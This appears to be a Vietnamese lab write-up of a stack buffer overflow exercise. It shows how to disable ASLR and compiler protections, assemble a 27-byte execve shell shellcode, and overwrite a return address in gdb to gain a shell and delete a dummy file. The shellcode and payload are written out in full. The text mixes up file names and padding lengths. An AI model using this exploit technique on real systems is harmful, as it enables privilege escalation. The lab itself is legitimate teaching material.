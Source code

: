 ### Chi tiết injection code để delete file dummyfile bằng cách `leo thang đặc quyền`
***
#### Điểm qua file vuln.c và file_del.asm  

![image](https://github.com/user-attachments/assets/c6588ec0-9d20-42d3-b849-0df865aa5a24)

![image](https://github.com/user-attachments/assets/98731ae7-d9ed-410d-9619-8db65417d6d8)

***
#### Các bước thực hiện
* Bước 1: ánh xạ file vào máy ảo docker
  ```
  docker run -it --privileged -v "C:/Users/Win 10/Seclabs:/home/seed/seclabs" img4lab
  ```
* Bước 2: tắt cơ chế bảo mật để có thể injection code
  ```
  sudo ln -sf /bin/zsh /bin/sh
  ```
* Bước 3: tắt cơ chế cấp phát địa chỉ ngẫu nhiên
  ```
  sudo sysctl -w kernel.randomize_va_space=0
  ```
* Bước 4:

  biên dịch file sh.asm   
  ```
  nasm -g -f elf sh.asm
  ```
  liên kết file
  ```
  ld -m elf_i386 -o sh sh.o 
  ```
  ![image](https://github.com/user-attachments/assets/d3ea2a60-ef76-4f9f-849e-5f4186c57e69)

* Bước 5: Xem file sh.asm có tổng cộng bao nhiêu bytes
  ```
  for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
  ```
  ![image](https://github.com/user-attachments/assets/c62b1e32-0790-4453-87fc-cf088359c871)

  

  => 27 bytes
  ```
  \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80
  ```
* Bước 6: biên dịch file vuln.c
  ```
  gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
  ```
  ![image](https://github.com/user-attachments/assets/5b4788fd-dfd7-4480-8279-665d3d0ee63a)

* Bước 7: tạo một file mới tên là dummyfile
  ![image](https://github.com/user-attachments/assets/5087675a-6183-42ab-aa83-630954c1ebc5)

* Bước 8: điểm qua stack frame của hàm main
  ![image](https://github.com/user-attachments/assets/7c0846cb-f2e7-40a3-bea6-906fcc78eb86)

  ta sẽ phải tràn code từ buf xuống return address và thay giá trị return address

  ta đã có 27 bytes của shellcode vào biến buf vậy chỉ cần thêm 37 bytes ngẫu nhiên sẽ tràn hết buf + thêm 4 bytes tràn xuống ebp là sẽ tới được return address
* Bước 9: gdb để chạy và xem chương trình
  ```
  gdb -q vuln.out
  ```
  ![image](https://github.com/user-attachments/assets/7197646b-41db-48f8-8f47-23fc53c5f4f3)

  Đặt 2 breakpoints: 1 khi stackframe được thiết lập tại 0x08048441. 2 tại 0x0804846b


  Chạy chương trình:
  ```
  r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a'*41 + '\xff\xff\xff\xff’)")
  ```
  Tại breakpoint thứ nhất xem stack từ esp `x/80xb $esp`
  ![image](https://github.com/user-attachments/assets/4472ae91-7422-4ffa-877c-ea25d3b25d3e)


  Tại breakpoint thứ 2:
  ![image](https://github.com/user-attachments/assets/b9fcbab1-f6f5-4014-884c-ca32d5c3f244)


  Ta đã biết vị trị của return address:

  ![image](https://github.com/user-attachments/assets/9fc6e9be-06a3-45cb-9799-08438f524666)

  Giờ thì chạy lại chương trình, thay thế return address thành địa chỉ của esp: `0xffffd688`
  ```
  set *0xffffd6cc = $esp
  ```
  ![image](https://github.com/user-attachments/assets/64cb39c3-df0a-47f1-ade7-2c6da0b55fc7)

* Bước 10: xóa file bằng lệnh:
  ```
  rm -r -f dummyfile
  ```
  ![image](https://github.com/user-attachments/assets/cf4370e6-0b06-4ff8-8c62-94d9861c010e)

